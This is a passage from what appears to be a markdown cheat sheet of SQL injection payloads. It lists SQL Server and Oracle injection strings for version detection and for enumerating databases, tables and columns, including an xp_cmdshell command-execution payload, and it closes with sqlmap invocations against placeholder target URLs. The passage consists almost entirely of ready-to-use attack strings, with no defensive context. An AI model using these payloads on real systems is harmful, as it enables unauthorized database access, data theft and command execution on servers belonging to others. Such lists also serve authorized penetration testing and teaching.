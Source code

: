 ### SQL Server Payloads
```sql
-- Version detection
' AND @@version LIKE '%Microsoft%'--

-- Database enumeration
' UNION SELECT name FROM master..sysdatabases--

-- Table enumeration
' UNION SELECT name FROM sysobjects WHERE xtype='U'--

-- Column enumeration
' UNION SELECT name FROM syscolumns WHERE id=(SELECT id FROM sysobjects WHERE name='users')--

-- Command execution
'; EXEC xp_cmdshell('whoami')--
```

### Oracle Payloads
```sql
-- Version detection
' AND (SELECT banner FROM v$version WHERE rownum=1) LIKE '%Oracle%'--

-- Database enumeration
' UNION SELECT owner FROM all_tables--

-- Table enumeration
' UNION SELECT table_name FROM user_tables--

-- Column enumeration
' UNION SELECT column_name FROM user_tab_columns WHERE table_name='USERS'--

-- Privilege escalation
' UNION SELECT privilege FROM user_sys_privs--
```

## 🎯 Automated Testing Payloads

### SQLMap Integration
```bash
# Basic testing
sqlmap -u "http://target.com/page.php?id=1" --dbs

# Advanced testing
sqlmap -u "http://target.com/page.php?id=1" --dbs --batch --random-agent

# POST data testing
sqlmap -u "http://target.com/login.php" --data "username=admin&password=pass" --dbs

# Cookie testing
sqlmap -u "http://target.com/page.php" --cookie "sessionid=abc123" --dbs
```
